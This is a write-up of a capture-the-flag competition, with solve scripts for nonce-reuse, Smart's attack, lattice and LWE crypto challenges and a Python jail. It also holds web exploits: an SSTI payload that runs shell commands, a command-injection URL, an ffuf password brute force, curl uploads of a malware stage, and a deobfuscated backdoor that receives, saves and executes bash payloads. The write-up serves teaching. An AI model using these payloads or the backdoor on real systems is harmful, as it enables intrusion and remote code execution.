










# MCSCv12-QUALIFICATION-CTF Writeups

Writeups for : `Crypto, Forensics, Web, Misc, PQC`

| Challenge | Writeup |
|-----------|---------|
| **Crypto** | |
| [Custom Signing](#custom-signing) | k nonce reuse attack to retrieve the secret key. |
| [ECC Leader](#ecc-leader) | Exploiting anomalous curves using SMART attack. |
| [ExNotChangeable](#exnotchangeable) | Hidden Number Problem approach for Diffie-Hellman key recovery. |
| **Web** | |
| [CTFit v200](#ctfit-v200) | urllib CVE-2023-24329 exploitation. |
| [Black Box](#black-box) | SSTI vulnerability exploitation. |
| **Misc** | |
| [HBIBISS](#hbibiss) | Exploiting object serialization and evaluation. |
| [The Forgotten Memory](#the-forgotten-memory) | CICADA 3301 OSINT and steganography challenge. |
| [The Hidden Gold](#the-hidden-gold) | Image XOR steganography analysis. |
| **PQC** | |
| [Hbibna LWE](#hbibna-lwe) | Dual Lattice Attack on LWE-based cryptography. |
| **DFIR** | |
| [APT4444](#apt4444) | Real attack simulation using privilege escalation. |
| [LEGITE](#legite) | VBA stomping and encrypted file exfiltration analysis. |
| [Internal 43](#internal-43) | Python-based malware utilizing self-shredding technique. |

#


## Crypto
### Custom Signing
The challenge was implementing the k nonce reuse attack where you can use it to retreive the secret key, and sign a valid signature.

Solve.py

```python

from Crypto.Util.number import inverse

r1, s1, m1, y, p, g =[...]

r2, s2, m2, y, p, g =[...]


# we can Recover the nonce (k)
delta_m = (m1 - m2) % (p - 1)
delta_s = (s1 - s2) % (p - 1)
k = (delta_m * inverse(delta_s, p - 1)) % (p - 1)

x = ((m1 - s1 * k) * inverse(r1, p - 1)) % (p - 1)

m_forged = 12345  
r_forged = pow(g, k, p)
s_forged = ((m_forged - x * r_forged) * inverse(k, p - 1)) % (p - 1)


print(f"Forged signature: {m_forged},{r_forged},{s_forged},{y}")
```
> flag : `MCSC{k_k_k_k_d0n7_eV3r_r3use_17}`

### ECC Leader
Also a basic Elliptic Curve Cryptography chall where you can exploit the fact of the anomalous curve.

> An **anomalous elliptic curve** is an elliptic curve \( E \) over a finite field \( \mathbb{F}_p \) where the number of points on the curve (denoted as \( |E(\mathbb{F}_p)| \)) is exactly equal to \( p \), the characteristic of the field.  

And this kind of curves is vuln to SMART attack for solving the DLP Problem, you can read more about it.

if you want to recover a,b and p. (optionaly)
```python
def smart_attack(G, P):
    """
    Solves the discrete logarithm problem using Smart's attack.
    More information: Smart N. P., "The Discrete Logarithm Problem on Elliptic Curves of Trace One"
    More information: Hofman S. J., "The Discrete Logarithm Problem on Anomalous Elliptic Curves" (Section 6)
    :param G: the base point
    :param P: the point multiplication result
    :return: l such that l * G == P
    """

    def _gf_to_qq(n, qq, x):
        return ZZ(x) if n == 1 else qq(list(map(int, x.polynomial())))

    # Lift a point to the p-adic numbers.
    def _lift(E, p, Px, Py):
        for P in E.lift_x(Px, all=True):
            if (P.xy()[1] % p) == Py:
                return P

    E = G.curve()
    assert E.trace_of_frobenius() == 1, f"Curve should have trace of Frobenius = 1."

    F = E.base_ring()
    p = F.characteristic()
    q = F.order()
    n = F.degree()
    qq = Qq(q, names="g")

    E = EllipticCurve(qq, [_gf_to_qq(n, qq, a) + q * ZZ.random_element(1, q) for a in E.a_invariants()])
    Gx, Gy = _gf_to_qq(n, qq, G.xy()[0]), _gf_to_qq(n, qq, G.xy()[1])
    Gx, Gy = (q * _lift(E, p, Gx, Gy)).xy()
    Px, Py = _gf_to_qq(n, qq, P.xy()[0]), _gf_to_qq(n, qq, P.xy()[1])
    Px, Py = (q * _lift(E, p, Px, Py)).xy()
    l = ZZ(((Px / Py) / (Gx / Gy)) % p)

    if n > 1:
        G0 = p ** (n - 1) * G
        G0x, G0y = _gf_to_qq(n, qq, G0.xy()[0]), _gf_to_qq(n, qq, G0.xy()[1])
        G0x, G0y = (q * _lift(E, p, G0x, G0y)).xy()
        for i in range(1, n):
            logging.info(f"Computing l % {p ** (i + 1)}...")
            Pi = p ** (n - i - 1) * (P - l * G)
            if Pi.is_zero():
                continue

            Pix, Piy = _gf_to_qq(n, qq, Pi.xy()[0]), _gf_to_qq(n, qq, Pi.xy()[1])
            Pix, Piy = (q * _lift(E, p, Pix, Piy)).xy()
            l += p ** i * ZZ(((Pix / Piy) / (G0x / G0y)) % p)

    return int(l)

print(long_to_bytes(smart_attack(p1,q1)))
print(long_to_bytes(smart_attack(p2,q2)))
```
> Note : The alg implementation is available online
> flag : `MCSC{b3_sm4rt_to_G37_7h3_fl4g}`

### ExNotChangeable

In this zero solves chall, it's The Hidden Number Problem approach that can be used
to recover a Diffie-Hellman shared secret from most significant bits.


Approch: 

- **Problem Setup**  

Let  
\[
p = 11093148136126840032240100493378787250505687428694568378068659324107003086101259453222935263991809290097010748259547387191918802204660568909084353369956293
\]  
be a **512-bit prime** used for finite field Diffie-Hellman, and let  
\[
g = 2
\]  
be a generator of the multiplicative group modulo \( p \).  

Let \( s \) be the Diffie-Hellman shared secret between public keys:  

\[
A = g^a \mod p
\]  
and  
\[
B = g^b \mod p = \textbf{0xba4f9d6f3e706e08021a110495da9d352c6eff1bfcaf185e5de7218a983254dd9a388a6ec3103c99e480348020fc20d8ff62f71bd1a5eb52ff12d7abc3c6b1c3}
\]  

We have learned the first **65 bits** of \( s \):  

\[
r_1 = \textbf{0x30c94d68cab2ea6d38d41c0bad18361a2a8b8b66091f297e407d56db052ef26a4054000000000000000000000000000000000000000000000000000000000000}
\]  

so we know that  
\[
s = r_1 + k_1
\]  
where \( k_1 < 2^{63} \).  

We have also learned the most significant **65 bits** of the Diffie-Hellman shared secret between \( AC = g^{a+c} = g^a g^c \mod p \) and \( B \). Let  

\[
r_2 = \textbf{0x8469445c57bad20c6402fc591cdbf23cfccb0a9aba96fed87c199cf1e137102252ac000000000000000000000000000000000000000000000000000000000000}
\]  

We know that  

\[
g^{(a+c)b} = g^{ab} g^{bc} = s B^c \mod p
\]  

Let  

\[
t = B^c
\]  

so that  

\[
s t = r_2 + k_2 \mod p
\]  

where \( k_2 < 2^{63} \).  

- **System of Equations**

We now cast the problem as a system of equations:  

1. \( s = r_1 + k_1 \mod p \)  
2. \( s t = r_2 + k_2 \mod p \)  

where \( s, k_1, \) and \( k_2 \) are small and unknown, while \( r_1, r_2, \) and \( t \) are known.  

We can eliminate the variable \( s \) to obtain the **linear equation**:  

\[
k_1 - t^{-1} k_2 + r_1 - t^{-1} r_2 \equiv 0 \mod p
\]  

- **Constructing a Lattice**  

We construct the following lattice basis:  

\[
M =
\begin{bmatrix}  
p & 0 & 0 \\  
t^{-1} & 1 & 0 \\  
-1 & a_1 - t a_2 & K  
\end{bmatrix}
\]  

If we apply the **LLL (Lenstra–Lenstra–Lovász) algorithm** on \( M \), we obtain a reduced basis that contains the vector:  

\[
(-k1_value, -k2_value, ValueNotInterestedIn)
\]  

This corresponds to our desired solution **\( (k_1, k_2, K) \)**.  

```python
#solution given B, c, p
from Crypto.Util.number import getPrime, bytes_to_long, isPrime, long_to_bytes

g = 0x2
B = 0xba4f9d6f3e706e08021a110495da9d352c6eff1bfcaf185e5de7218a983254dd9a388a6ec3103c99e480348020fc20d8ff62f71bd1a5eb52ff12d7abc3c6b1c3
p = 11093148136126840032240100493378787250505687428694568378068659324107003086101259453222935263991809290097010748259547387191918802204660568909084353369956293
rrrrrr = 0x30c94d68cab2ea6d38d41c0bad18361a2a8b8b66091f297e407d56db052ef26a4054000000000000000000000000000000000000000000000000000000000000
bakha = 0x8469445c57bad20c6402fc591cdbf23cfccb0a9aba96fed87c199cf1e137102252ac000000000000000000000000000000000000000000000000000000000000
c = 0x37c012fc3bb382523797930b25a8b7fdc77e99d2ffe6d48f6af4af7ee591425ea088e8717b625650f49b95d128bfc0663a3132c32d897acfa4151d7f2e6f37af
ExNotChangeable = 6909194410234191894585961242353755857100310114223366009755312915035625198746755966774807330721995012155252253226178726566356100357341988158815947523380819259877182558769376535116678939053259587440186352109417599760247765144357054050744308456243381397151349385670430308696422950676962591509527725221139839592


from sage.all import *

K = 2**242  

t = pow(B, c, p)
t_inv = inverse_mod(t, p)
M = Matrix(ZZ, [
    [p, 0, 0],
    [t_inv, 1, 0],
    [rrrrrr - (t_inv * bakha) % p, 0, K]
])


M_reduced = M.LLL()

k1, k2, _ = M_reduced[0]

print(f"k1: {hex(k1)}, k2: {hex(k2)}")

s = int(rrrrrr + abs(k1))
while not isPrime(s):
    s += 1
n = 25433994087115135312901884073435176905221411951942397897477021660859779148705406450073400112301489098230018617938663663835807099386270369458418311374046724547029235935457132524907319006584670831659548927403777678545889472723389348115348451560307605036544220649875541852185142251808841874441655977755338409113

l = int(n) / s  

e = 65537
d = pow(e, -1, (l - 1) * (s - 1))  

decrypted_flag = long_to_bytes(pow(ExNotChangeable, d, n))
print(decrypted_flag)
```

> flag : `MCSC{L477ice_solv3s_all????:jUs7_pl4y_w17h_DH}`


These was the crypto challenges, i hope you learned something from the last chall.


## Web

### CTFit v200

This is a simple chall  where my intended solution was to exploit the urllib CVE in the python 3.9 as hinted in the docker file, Since urlib is used here and the python version is 3.9.7 its vulnerable to CVE-2023-24329, you can find more details here https://nvd.nist.gov/vuln/detail/CVE-2023-24329

We can use this vulnerability to send a request to /order as localhost using a blank space in the begining of the input.

> Note : there was multiple solutions for this and easiest than this. you can descuss them in discord.

the exploit :
```url
	  http://127.0.0.1:5000/order?cmd=tac%20*txt&challnumber=1111
```

> Note : The vuln includes the spaces before http.
> flag : MCSC{URLl1111b_w4s_1n_gr4ve_d4rkn3ss}

### Black Box
The challenge that makes you made ( sorry for that inconv ), the simple idea of it is that it was implementing ssti, so as hinted you should fuzz the parameters where you'll find `name` param and then check for ssti, since the user agent is about flask app. 

```exploit
Using ahjun tool or any, `python3 ajhun.py -u "https://example.com/index.php" -w params.txt`

this will identify name param.

then check ?name={{7*7}}
```
You can see the 49 number in the 2nd Card

```exploit
final exploit.

http://3.219.168.69:5000//?name={{%20%27%27.__class__.__mro__[1].__subclasses__()[354](%22cat%20flag.txt%22,%20shell=True,%20stdout=-1).stdout.read().decode(%27utf-8%27)%20}}
```


> flag : `MCSC{G00sBUMMP_dUmp_GumP_9iw9iw}`

## Misc

### HBIBISS
A  jail that as i see, has multiple sols, but i'll discuss mine ( the intended one ).

chall.py
```python
from secret import garbages
flag = open("flag.txt", "rb").read()


class Lib:
    def __init__(self):
        self.name = "Sn4keEy3s"
        self.s = "frelaaaaaglace" 
        self.book = "Visaaaalmarrroc"
        self.price = "goaalooooljjbkkkakkklcarssuuuuu"
    def __str__(self):
        return self.name
    def ro(self):
        return self.s
    
    
class Lib1:
    def __init__(self):
        self.name = "Sn4keEy3s"
        self.s = "flllaaaaaglace" 
        self.book = "Visaaaalmarrroc"
        self.price = "goaalooooljjbkkkakkklcarssuuuuu"
    def __str__(self):
        return self.name
   
    def ko(self):
        return self.price 

class I(Lib):
    pass
class N(Lib):
    pass
class S(Lib1):
    pass
class E(Lib1):
    pass
class C(Lib1):
    pass
    

baite1=input('wa thala fia nthala fik 1 : ')  
if len(baite1)>16 or any(char in baite1 for char in ['f', '/', '-',' ','rm','#','c','r','p','l']) :
   print('nchaalah brabi')
   exit(0)
declared_str1 = eval(baite1,{"__builtins__": None},garbages)
baite2=input('wa thala fia nthala fik 2 : ') 
if len(baite2)>16 or any(char in baite2 for char in ['f', '/', '-',' ','rm','#','d','c','p','l'])     : 
   print('nchaalah brabi')
   exit(0)
declared_str2 = eval(baite2,{"__builtins__": None},garbages)
def main():
    while True:
        inp = input("") 
        if any(char in inp for char in ['f', '/', '-','l']):
           print('nchaalah brabi')
           return 0
        formatted_str = inp.replace('garbage2', str(globals().get('declared_str2'))).replace('garbage', str(globals().get('declared_str1')))
        formatted_str = formatted_str.format(a=Lib())
        
        print(formatted_str) 

if __name__ == "__main__":
    main()

```

as it seems to you it takes tree inputs, the first twos, will be replaces in the third, 

first input solution

```python
wa thala fia nthala fik 1 : S().ko()[0:28:4]
```

this parse the "globals" string from S() that inherit from Lib1 the price variable, in the price variable. since price[0:28:4]='globals'

second input we should parse 'flag'

```python
wa thala fia nthala fik 1 : S().ko()[0:28:4]
wa thala fia nthala fik 2 : I().ro()[0:12:3]
```

then, third input will be replaced 'garbage' and 'garbage2' with the first inputs.

```python
third inp : {a.__init__.__garbage__[garbage2]}
```

this dumbs the flag



> flag : `MCSC{re4lly_suff3r3d_t0_g37_th1s_d00ne:bs4hT000000}`

### The Forgotten Memory

This is about the cicada group, its a stego and osint challenge where you should search about the CICADA Mouvements.

> Cicada : CICADA 3301, it's a mysterious online organization known for posting highly complex cryptographic puzzles between 2012 and 2014.

solution

pdftotext > will give you number 3 value
 
 

1 and 2 are dimensions of the image given ( this tech is used by CICADA Group) 

and 4th value = 7720 (in the image)

as given in the pdftotext puzzle the pastbin code is 137578254019200000 (1080*1350*7720*12222920)

Enter the pass to the pastbin url [url](https://pastebin.com/8328TTnF) will unlock the flag

> flag : `MCSC{Congr4ts_j0in1n9_u5}`


### The Hidden Gold

You are given an image, apparently is a stego chall, as hinted it has a twin so looking for the original image. you can find it by typing `levi wallpaper` in google, then you'll come across this [website](https://www.bhmpics.com/download.php?file=/downloads/Levi-Wallpapers-/1.753277.png)

Now you have the twins, go to StegSolve to xor them or use python, this will give you the black image output but some pixels are not, and that's the flag.


if you displayed each pixel value you can see that pixel 1 = (49,49,49) .... the rgb values are the same
How to recover the flag from the xored image?
```python
from PIL import Image
import sys

import random
# Example usage
image_path = "levi.png" 
output_path = "output.png"  

image1_path = image_path  
image2_path = "output.png"  
recovered_path = "recovered.jpg"

img1 = Image.open(image1_path).convert("RGB")
img2 = Image.open(image2_path).convert("RGB")
    
pixels1 = img1.load()
pixels2 = img2.load()
    
width, height = img1.size
result = Image.new("RGB", (width, height))
pixels_result = result.load()
    
recovered_flag=''
for x in range(width):
        for y in range(height):
            if pixels1[x, y] != pixels2[x, y]:  # Check for differences
                recovered_flag+=chr(pixels2[x, y][0])
                print(pixels2[x,y])
print(recovered_flag)
```

> flag : `MCSC{X000000r_7he_0r1g1n4ll}`

## PQC
### Hbibna LWE
This PQC Chall is an introduction to LWE problem which is resilient to Quantum attacks, but with vuln params you can recover the secret key easly. i implemented the DUAL LATTICE ATTACK on LWE which is a known attack. you can read more about it here [website]('https://eprint.iacr.org/2021/557')

solve
```python
import numpy as np
from hashlib import sha256

data = np.load("lwe_challenge_final.npz")
A = data['A']
b = data['b'].flatten()
encrypted_flag = bytes(data['encrypted_flag'])

n = A.shape[1]
m = A.shape[0]
q = 32768

A_sage = Matrix(ZZ, A.tolist())
b_sage = vector(Zmod(q), b.tolist())

# lattice basis [[I_m | A], [0 | q*I_n]]
B_top = block_matrix([[identity_matrix(m), A_sage]], subdivide=False)
B_bottom = block_matrix([[zero_matrix(n, m), q * identity_matrix(n)]], subdivide=False)
B = B_top.stack(B_bottom).dense_matrix()
B = B.change_ring(ZZ)  
lattice = IntegerLattice(B)  
reduced_basis = lattice.LLL()  

short_vectors = [vec for vec in reduced_basis if vec[:m].norm() < 50][:n]


Y = Matrix(Zmod(q), [vec[:m].list() for vec in short_vectors])
c = vector(Zmod(q), [vec[:m].dot_product(b_sage) for vec in short_vectors])

Y_int = Matrix(ZZ, Y)
c_int = vector(ZZ, c.lift())
Q, R = Y_int.QR()
e_guess = R.solve_right(Q.transpose() * c_int)
e_guess = vector(ZZ, [int(round(x)) for x in e_guess])

A_mat = Matrix(Zmod(q), A.tolist())
b_minus_e = (b_sage - e_guess.change_ring(Zmod(q)))
s_guess = A_mat.solve_right(b_minus_e)

s_np = np.array(s_guess).astype(np.int64).reshape(-1, 1) % q
s_bytes = s_np.tobytes()
key = sha256(s_bytes).digest()
flag = bytes([a ^ b for a, b in zip(key, encrypted_flag)])

print("Recovered Secret:", s_guess)
print("Decrypted Flag:", flag.decode())
```

## DFIR

### APT4444
This chall was the easiest, implement a real attack on a vuln web site to gain remote control and priv esc. So i will detail the scenario of to make it clear.

first the attacker used fuff tool to get the creds of the admin 

Note : this is not given , i'm trying to explain the scenario.
```
ffuf -u http://192.168.1.8:5002/login -X POST -d "username=adminsn4ke&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -w /home/sn4keey3s/Downloads/im/FlyHigh/rockyou.txt -mc 302 -t 50 -v -o results.json # this to bruteforce password
```

Then the attacker accessed the acc and then upload a listner python file (first stage) that will be executed

```python
curl -c cookies.txt -X POST -d "username=adminsn4ke&password=snickers" http://192.168.1.8:4000/login # get logged in with user admin
curl -b cookies.txt -X POST -F "file=@firstfinal.py" -H "Content-Type: multipart/form-data" http://192.168.1.8:5002/upload # the he used the admin cookie to send the file malware first stage, this listen for incomming tcp packets starting with McSc then decrypt data after it
```
the python was not the real exploit, this listen for incomming tcp packets starting with McSc then decrypt data after it. the received data will be decrypted which is the real exploit.

deobuscated python :
```python

import socket
import os
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import hashlib
import subprocess

key = hashlib.sha256(b"MCSC{sn4ky_as_usU4l}").digest()  
iv=b'\xd8N^\xb7h_M\x8bF9\xebN!\xd4\xb2\x7f'
def decrypt_data(data):
    cipher = AES.new(key, AES.MODE_CBC, iv)
    try:
        decrypted_data = unpad(cipher.decrypt(data), AES.block_size)
        return decrypted_data
    except ValueError:
        return None

def listen_for_packets(host, port, output_file="malware.sh"):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((host, port))
    s.listen(5)
    
    while True:
        client_socket, addr = s.accept()
        
        try:
            while True:
                packet = client_socket.recv(1024)
                
                if not packet:
                    break 
                if packet.startswith(b'McSc'):
                    decrypted_data = decrypt_data(packet[4:])  
                    
                    if decrypted_data:
                        with open(output_file, "ab") as f:
                            f.write(decrypted_data)
                    else:
                        print("")
                
        except Exception as e:
            print(f"Error receiving or processing packet: {e}")
        
        finally:
            subprocess.call(["chmod","+x","malware.sh"])
            subprocess.call(["bash","malware.sh"])
 
            client_socket.close()
    
if __name__ == "__main__":
    listen_for_packets("192.168.1.8", 12345)  
```

as we are seen, it listen for malware.sh, saves it and execute it. this was for evading detection.

